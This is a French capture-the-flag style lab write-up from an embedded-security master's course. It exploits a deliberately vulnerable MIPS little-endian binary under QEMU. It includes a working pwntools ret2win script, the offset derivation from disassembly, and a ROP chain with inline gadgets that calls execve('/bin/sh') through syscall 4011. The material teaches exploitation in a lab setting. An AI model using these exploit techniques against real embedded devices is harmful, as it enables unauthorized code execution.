

# Write-up — Lab 21 : MIPS ret2win + ROP syscall

> **Pilier 3 — Embarqué / C-ASM x86-64 · ARM / QEMU**
> Ngagne Demba Dia · AngeVirusLab · Master Sécurité des Systèmes Embarqués · UCAD · 2026

[]()
[]()
[]()
[]()

---

## 1. TL;DR

**Contexte :** Architecture MIPS little-endian (MIPSEL) — `$ra` = registre retour (équivalent ARM `LR`)  
**Technique :** Overflow buffer → écraser `$ra` → sauter vers `win()` (ret2win)  
**Bonus :** Gadgets inline pour `execve` via `syscall` (SYS_execve = 4011)  
**Outil :** QEMU user-mode `qemu-mipsel`

---

## 2. Architecture MIPS — différences clés vs ARM/x86

| Concept | x86-64 | ARM32 | MIPSEL |
| --- | --- | --- | --- |
| Registre retour | `[rsp]` (pile) | `LR` (r14) | `$ra` (r31) |
| Args syscall | rdi,rsi,rdx | r0,r1,r2 | $a0,$a1,$a2 |
| Num. syscall | rax | r7 | $v0 |
| execve num. | 59 | 11 | **4011** |
| Branchement | ret / call | `bx lr` | `jr $ra` + **delay slot** |
| ABI | SystemV | EABI | **O32** |

### Branch delay slot (MIPS spécifique)

En MIPS, l'instruction qui **suit immédiatement** un branchement (`jr`, `jal`, `b`) s'exécute **avant** le saut. C'est le *delay slot*.

```asm
jr   $ra          ; saut préparé
addiu $sp,$sp,80  ; delay slot — s'exécute EN PREMIER
; <-- saut effectif ici
```

Impact sur les gadgets ROP : chaque gadget doit avoir un `nop` ou une instruction utile en delay slot.

---

## 3. ABI O32 — layout de la stack frame

```
Haute adresse
  [sp + N-4]   → saved $ra   ← cible du débordement
  [sp + N-8]   → saved $fp
  [sp + 16..]  → variables locales (buffer)
  [sp + 0..15] → zone arguments (16 bytes réservés par O32)
Basse adresse (sp)
```

L'OFFSET = 16 (zone args) + taille buffer + sauvegardes avant $ra.

---

## 4. Compilation

```bash
mipsel-linux-gnu-gcc -g -fno-stack-protector -no-pie -o target target.c
```

Prologue réel (objdump) :

```asm
00400734 <vulnerable>:
  400734:  27bdffa0   addiu  sp,sp,-96    ; frame = 96 bytes
  400738:  afbf005c   sw     ra,92(sp)    ; $ra @ sp+92
  40073c:  afbe0058   sw     s8,88(sp)    ; $s8 @ sp+88
  400740:  03a0f025   move   s8,sp
  40074c:  afbc0010   sw     gp,16(sp)    ; $gp @ sp+16 (O32 convention)
```

Layout frame : `[0..15 arg area][16..19 $gp][20..23 pad][24..87 buffer64][88..91 s8][92..95 ra]`
**OFFSET = 92 − 24 = 68** (confirmé : cyclic SIGSEGV à `0x61616172`)

---

## 5. Exploit Part 1 — ret2win

```python
from pwn import *
elf = ELF('./target')
context.binary = elf
context.arch   = 'mips'
context.endian = 'little'

win_addr = elf.sym['win']
OFFSET   = 68   # buffer @ sp+24, $ra @ sp+92
payload  = b'A' * OFFSET + p32(win_addr)

p = process(['qemu-mipsel', '-L', '/usr/mipsel-linux-gnu', './target'])
p.recvuntil(b'win @ ')
p.recvline()
p.send(payload)
# win() boucle ($ra garde win_addr en MIPS) → recvline suffit
flag = p.recvline(timeout=3)
log.success(flag.decode().strip())
p.close()
```

---

## 6. Gadgets MIPSEL embarqués — Part 2 (ROP execve)

```c
__asm__(
    ".global gadget_lw_a0_jr_ra\n"
    "gadget_lw_a0_jr_ra:\n"
    "\tlw  $a0, 0($sp)\n"        /* a0 = &"/bin/sh" depuis la pile   */
    "\tjr  $ra\n"
    "\taddiu $sp, $sp, 4\n"      /* delay slot : avance sp           */

    ".global gadget_li_a1a2_syscall\n"
    "gadget_li_a1a2_syscall:\n"
    "\tli  $a1, 0\n"             /* argv = NULL                      */
    "\tli  $a2, 0\n"             /* envp = NULL                      */
    "\tli  $v0, 4011\n"          /* SYS_execve (MIPS O32)            */
    "\tsyscall\n"
    "\tnop\n"
);
```

Chain ROP :

```
payload = b'A' * OFFSET
        + p32(gadget_lw_a0)    # $ra = gadget1 → lw $a0,[sp]; jr $ra; sp+=4
        + p32(gadget_syscall)  # valeur de $ra chargée par gadget1 (delay slot sp)
        + p32(binsh_addr)      # valeur lue par lw $a0,0($sp) dans gadget1
```

---

## 7. Résultat

```
>>> FLAG : AngeVirus{mips_ra_overflow_controlled} <<<
```



---

## 8. Progression embarqué complète

| Lab | Architecture | Technique | Difficulté |
| --- | --- | --- | --- |
| Lab18 | ARM32 | ret2win — overflow LR | ★☆☆ |
| Lab19 | ARM32 | ROP system@plt | ★★☆ |
| Lab20 | ARM32 | ret2syscall SVC #0 | ★★★ |
| **Lab21** | **MIPSEL** | **ret2win + ROP syscall** | **★★☆** |

---

## Résumé technique

| Élément | Valeur |
| --- | --- |
| Architecture | MIPSEL (little-endian, O32 ABI) |
| Registre cible | $ra (r31) |
| syscall execve | $v0 = 4011 |
| Delay slot | nop après jr $ra |
| QEMU | qemu-mipsel -L /usr/mipsel-linux-gnu |

---

*Ngagne Demba Dia · AngeVirusLab · Master Sécurité des Systèmes Embarqués · UCAD · Dakar, 2026*
